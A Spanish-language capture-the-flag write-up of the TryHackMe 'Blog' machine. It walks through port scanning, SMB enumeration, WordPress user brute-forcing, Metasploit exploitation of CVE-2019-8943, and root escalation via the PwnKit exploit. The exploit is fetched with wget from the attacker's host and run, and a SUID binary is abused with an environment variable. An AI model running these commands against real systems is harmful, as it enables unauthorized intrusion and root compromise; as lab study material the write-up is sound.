# Blog

## Información General

<h3>Dificultad:  </h3>

<h3> Sistema operativo: Linux</h3> 

<h3>Vulnerabilidad explotada:  CVE 2019-8943 y en escalada de privilegio con **pkexec** y **checker**</h3>

<h3> Fecha de resolución: 29/06/2025 </h3>

<h3>Enlace de la mv: <a href="https://tryhackme.com/room/blog" target="_blank">Blog</a></h3>

### *Leer el documentro en ingles* <a href="blog_ingles.md">Blog</a>

## Reconocimiento

TryHackme nos proporciona la ip de la máquina objetivo **ip_objetivo**

Voy a establecer en el fichero **/etc/hosts** la **ip de la mv objetivo**, la voy a llamar **blog.thm**

<p align="center"> 

</p>

**Ping**

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 blog.thm 
```

<p align="center"> 

</p>

**Si el ttl=63 es Linux**

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn <ip de la máquina objetivo>
```

<p align="center"> 

</p>

<div align="center">

| Open port | Service     | Version                         |
| --------- | ----------- | ------------------------------- |
| 22        | ssh         | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 |
| 80        | http        | httpd 2.4.29 ((Ubuntu))         |
| 139       | netbios-ssn | Samba smbd 3.X - 4.X            |
| 445       | netbios-ssn | Samba smbd 4.7.6-Ubuntu         |

</div>

Con nmap hemos descubierto dos path, que probaremos más adelante **/robots.txt/ y /wp-admin/**
#### Escaneo de puerto UDP

```
nmap -sU --top-ports 200 --min-rate=5000 -Pn <Ip de la victima>
```

<p align="center"> 

</p>

<div align="center">

| Open Port | SERVICE    |
| --------- | ---------- |
| 137       | netbios-ns |

</div>

## Exploración
### Nmap

Está el puerto 80 abierto, se investiga:

```
http://blog.thm/
```

<p align="center"> 

</p>

<p align="center"> 

</p>

Aquí nos dice que esta usando Wordpress para crear su blog

<p align="center"> 

</p>

Otra forma de acceder al panel de control de Wordpress

```
http://blog.thm/robots.txt
```

<p align="center"> 

</p>

```
http://blog.thm/wp-admin
```

<p align="center"> 

</p>

Podemos intuir el nombre del usuario, que se llama **Billy** por el post del inicio de la página Web.
pero no hubo suerte, había que investigar más.

### Fuzzing web

```
gobuster dir -u http://blog.thm/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt 
```

<p align="center"> 

</p>

```
http://blog.thm/feed/rdf/
```

<p align="center"> 

</p>

Me encuentro la versión que tiene WordPress que es la v5.0

Luego, los demás **paths** ya lo sabemos gracias al scaneo de **nmap**

### Samba

#### Rpcclient

```
rpcclient -U "" -N blog.thm  
```

<p align="center"> 

</p>

#### Smbmap

**Todo esto se lleva cabo porque el puerto 139 y 445 están abierto**

Ubicación de la herramienta

https://github.com/ShawnDEvans/smbmap

Para usarla hay que tener instalado **pip3**

```
pip3 --version
```

<p align="center"> 

</p>

También tener creado un entorno virtual de python, pero sino sabes te enseño como hacerlo:

```
sudo apt install python3.13-venv
python3 -m venv venv
source venv/bin/activate
```

<p align="center"> 

</p>

**Comando para instalar smbmap una vez activado el entorno virtual de python**

```
pip install smbmap
smbmap -H <IpObjetivo>
```

En mi caso, el comando sería este:

```
smbmap -H blog.thm
```

<p align="center"> 

</p>

Usamos **smblient**

```
smbclient //blog.thm/BILLYSMB
```

<p align="center"> 

</p>

Me descargo los tres archivos con los siguientes comandos

```
get Alice-White-Rabbit.jpg
get tswift.mp4
get check-this.png
```

<p align="center"> 

</p>

Lo meto en una carpeta y lo investigo con una herramienta de **estenografía**

```
steghide extract -sf Alice-White-Rabbit.jpg
```

<p align="center"> 

</p>

``` 
cat rabbit_hole.txt
```

<p align="center"> 

</p>

Luego los demás archivos me lleva a una música de los 80, que prácticamente no conseguimos **nada**

### WordPress

#### Wpscan

Algo que se me olvidó hacer desde el principio es usar esta herramienta para descubrir que usuario tiene el WordPress, un poco bobo por mi parte por no usarlo antes. **Antes tenemos que actualizarlo**

```
wpscan --update
```

<p align="center"> 

</p>

```
wpscan --url http://blog.thm --enumerate u,vp
```

El informe es bastante extenso, pero por ahora solo nos centraremos que **usuarios nos descubre**

<p align="center"> 

</p>

Los usuarios que aparecen son **kwheel** y **bjoel**

Realizamos fuerza bruta con wpscan 

```
wpscan --url http://blog.thm --passwords /usr/share/wordlists/rockyou.txt --usernames kwheel
```

<p align="center"> 

</p>

Con el usuario **kwheel** tarda cerca de 8 minutos en conseguirnos la contraseña
la conraseña es **cutiepie1**

En el informe tambien me comenta que tiene el wordpres la version 5.0, busco en en internet

```
exploit linux wordpress 5.0 metasploit
```

<p align="center"> 

</p>

Dentro de <a href="https://www.exploit-db.com/exploits/49512" target="_blank">exploit-db</a> me aparece los cve, me da por buscarlo en metasploit

<p align="center"> 

</p>

en metasploit 

```
search 2019-8943
search 2019-8942
```

<p align="center"> 

</p>

Por tanto, realizaremos el ataque por **metasploit** 
## Explotación 

Usamos la vía metasploit, ya que, me estoy preparando para el *ejptv2*

```
use 0
show options
```

<p align="center"> 

</p>

```
set RHOSTS 10.10.191.75
set USERNAME kwheel
set PASSWORD cutiepie1
set LHOST 10.8.139.36
show options
```

<p align="center"> 

</p>

```
run
```

<p align="center"> 

</p>

Me voy a la carpeta del usuario

```
cd /home/bjoel
```

<p align="center"> 

</p>

pero...

```
cat user.txt
```

<p align="center"> 

</p>

Que siga buscando... por tanto investigo y me encuentro con algo sospechoso, primero nos vamos a ...

```
cd /media
ls
```

<p align="center"> 

</p>

**Curiosamente esta carpeta solo se puede acceder con permiso de root** 

Por tanto me pongo manos a la obra con la escalada de privilegio

## Explotación Posterior

### Tenemos que conseguir una conexión más estable

En alternativa de la tty, usaremos este comando:

```
python -c "import pty;pty.spawn('/bin/bash')"
```

**Tambien sirve con metasploit**

<p align="center"> 

</p>

### Escalada de Privilegios

#### Primer comando:

```
sudo -l
```
**No sirvió**
#### Segundo comando:

```
find / -perm -4000 2>/dev/null
```

<p align="center"> 

</p>

Investigando, se puede escalar privilegio de dos maneras con el módulo **pkexec** y **checker**, aunque esta última es mas complicada de entender (al final no fue para tanto). Por ahora solo nos centraremos en la primera.

### Primera Explotación Posterior

Siempre cuando tenemos la oportunidad de escalar privilegio con **pkexec** buscamos en google lo siguiente:

```
github pkexec privilege escalation
```

<p align="center"> 

</p>

Para descargarlo con **wget** solo nos bastaría irnos <a href="https://github.com/NxPnch/pkexec-exploit" target="_blank">aquí</a> y copiamos la url

<p align="center"> 

</p>

```
wget https://raw.githubusercontent.com/NxPnch/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```

Luego le cambio el nombre para que sea más facil

<p align="center"> 

</p>

comparto el archivo con este comando 

```
python -m http.server 80
```

Luego situado en la carpeta **/tmp** me traigo el archivo con el siguiente comando:

```
wget http://ipMaquinaAtacante/exploit.py
```

<p align="center"> 

</p>

Luego, le damos permiso de ejecución y ejecutamos

```
chmod +x exploit.py
./exploit.py
n
```

<p align="center"> 

</p>


### Segunda explotación posterior

Nos situamos en donde esta el módulo **checker**

```
cd /usr/sbin
ltrace checker
```
**ltrace** sirve para rastrear las llamadas a funciones de bibliotecas dinámicas que hace un programa mientras se ejecuta, es decir, te muestra en tiempo real cuáles de estas funciones se están llamando, con qué argumentos y qué devuelven.

<p align="center"> 

</p>

```
getenv("admin")                                  = nil
puts("Not an Admin"Not an Admin
)                             = 13
+++ exited (status 0) +++
```

Este código significa que el programa busca una variable de entrono llamada **admin**, como no existe (nil), imprime **"not admin"** .

Por tanto la idea es exportar esta variable de entorno, de la siguiente forma:

```
export admin=1 
```

(puede ser 1 como si quieres poner hello o lo que sea). Entonces lo importante no es el valor, sino, **es que exista** la variable `admin`.

<p align="center"> 

</p>


```
getenv("admin")                                  = "1"
setuid(0)                                        = -1
```
...entonces `getenv("admin")` devuelve `"1"`, es decir: **ahora sí existe y tiene valor**.

Ejecutamos ahora el binario **checker**

```
./checker
```

<p align="center"> 

</p>

Todo esto ocurre porque el binario **checker** pertenece a root, obtienes una shell como root

------------------------------------------------------------------------

Para conseguir la primera red flag nos situamos en **/media/usb**

<p align="center"> 

</p>

Luego la segunda red flag

<p align="center"> 

</p>

**Maquina terminada**

## Conclusión

Esta máquina me recordó la importancia de realizar una enumeración adecuada de puertos al ejecutar un escaneo con **Nmap**, ya que dependiendo de los servicios detectados, podemos aplicar distintas técnicas de reconocimiento y explotación.

Por ejemplo, si están abiertos los puertos **139** y **445**, están relacionados con **Samba**, es fundamental utilizar herramientas como **rpcclient** y **smbmap** para enumerar recursos compartidos, usuarios o posibles accesos sin autenticación. Por otro lado, si el objetivo utiliza **WordPress**, herramientas como **wpscan** se vuelven esenciales para detectar usuarios y vulnerabilidades conocidas. Además, **wpscan** permite realizar **ataques de fuerza bruta** para obtener credenciales válidas si se configura adecuadamente.

Durante la fase de explotación, aproveché la vulnerabilidad **CVE-2019-8943**, que afectaba a uno de los plugins instalados en WordPress, permitiendo ejecutar código arbitrario y obtener una shell en el sistema objetivo con **metasploit**.

Para escalar privilegios y acceder a la primera flag (que estaba protegida por permisos de root), identifiqué dos vectores posibles: mediante el binario `pkexec` y mediante un binario personalizado llamado `checker`.

Con `pkexec`, siempre que esté presente, conviene comprobar si es vulnerable a exploits conocidos como **CVE-2021-4034** (PwnKit). En cuanto a `checker`, utilicé la herramienta `ltrace` para analizar las llamadas a funciones y descubrí que el programa dependía de una variable de entorno llamada `admin`. Esta variable no estaba definida por defecto, pero al exportarla (por ejemplo, con `export admin=1`) y ejecutar `checker`, se obtiene acceso como **root**.

Una vez escalados los privilegios, fue posible acceder a ambas flags sin mayor complicación.